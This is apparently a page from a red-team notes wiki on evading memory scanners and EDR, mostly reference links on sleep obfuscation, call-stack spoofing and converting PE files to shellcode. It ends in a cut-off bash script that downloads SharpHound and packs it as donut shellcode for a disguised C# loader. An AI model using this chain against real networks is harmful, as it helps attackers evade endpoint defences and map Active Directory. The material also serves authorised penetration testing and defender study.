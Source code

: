 

### gargoyle

- [https://github.com/JLospinoso/gargoyle](https://github.com/JLospinoso/gargoyle)
- [https://lospi.net/security/assembly/c/cpp/developing/software/2017/03/04/gargoyle-memory-analysis-evasion.html](https://lospi.net/security/assembly/c/cpp/developing/software/2017/03/04/gargoyle-memory-analysis-evasion.html)
- [https://labs.f-secure.com/blog/experimenting-bypassing-memory-scanners-with-cobalt-strike-and-gargoyle/](https://labs.f-secure.com/blog/experimenting-bypassing-memory-scanners-with-cobalt-strike-and-gargoyle/)
- [https://www.arashparsa.com/bypassing-pesieve-and-moneta-the-easiest-way-i-could-find/](https://www.arashparsa.com/bypassing-pesieve-and-moneta-the-easiest-way-i-could-find/)
- [https://github.com/waldo-irc/YouMayPasser](https://github.com/waldo-irc/YouMayPasser)
- [https://github.com/thefLink/DeepSleep](https://github.com/thefLink/DeepSleep)



### Memory Scanners

- [https://github.com/forrest-orr/moneta](https://github.com/forrest-orr/moneta)
- [https://github.com/hasherezade/pe-sieve](https://github.com/hasherezade/pe-sieve)




## Thread Stack Spoofing

{% embed url="https://youtu.be/7EheXiC3MJE" %}

- [https://github.com/mgeeky/ThreadStackSpoofer/tree/c2507248723d167fb2feddf50d35435a17fd61a2](https://github.com/mgeeky/ThreadStackSpoofer/tree/c2507248723d167fb2feddf50d35435a17fd61a2)
- [https://github.com/mgeeky/ThreadStackSpoofer](https://github.com/mgeeky/ThreadStackSpoofer)
- [https://labs.withsecure.com/blog/spoofing-call-stacks-to-confuse-edrs/](https://labs.withsecure.com/blog/spoofing-call-stacks-to-confuse-edrs/)
- [https://github.com/countercept/CallStackSpoofer](https://github.com/countercept/CallStackSpoofer)
- [https://www.unknowncheats.me/forum/anti-cheat-bypass/268039-x64-return-address-spoofing-source-explanation.html](https://www.unknowncheats.me/forum/anti-cheat-bypass/268039-x64-return-address-spoofing-source-explanation.html)




## PE to Shellcode

- [https://github.com/monoxgas/sRDI](https://github.com/monoxgas/sRDI)
- [https://github.com/TheWover/donut](https://github.com/TheWover/donut)
- [https://github.com/hasherezade/pe_to_shellcode](https://github.com/hasherezade/pe_to_shellcode)

[Example](https://github.com/l4ckyguy/ukn0w/commit/0823f51d01790ef53aa9406f99b6a75dfff7f146) with [SharpHound.exe](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe) and donut (C# cross-compilation is done with [Mono](https://www.mono-project.com/download/stable/)):

{% code title="sweetblood.sh" %}
```bash
RNDNAME=`curl -sL https://github.com/penetrarnya-tm/WeaponizeKali.sh/raw/main/misc/binaries.txt | shuf -n1`
wget https://github.com/BloodHoundAD/BloodHound/raw/master/Collectors/SharpHound.exe -qO /tmp/SharpHound.exe

# --ldapusername snovvcrash --ldappassword Passw0rd!
~/tools/PEzor/deps/donut/donut -a2 -z2 -i /tmp/SharpHound.exe -p '--CollectionMethod All,LoggedOn --NoSaveCache --OutputDirectory C:\Windows\Tasks --ZipFilename sweetbl.zip' -o /tmp/SharpHound.bin

BUF=`xxd -i /tmp/SharpHound.bin | head -n-2 | tail -n+2 | tr -d ' ' | tr -d '\n'`
BUFSIZE=`xxd -i /tmp/SharpHound.bin | tail -n1 | awk '{print $5}' | tr -d ';\n'`

cat << EOF > "/tmp/$RNDNAME.cs"
```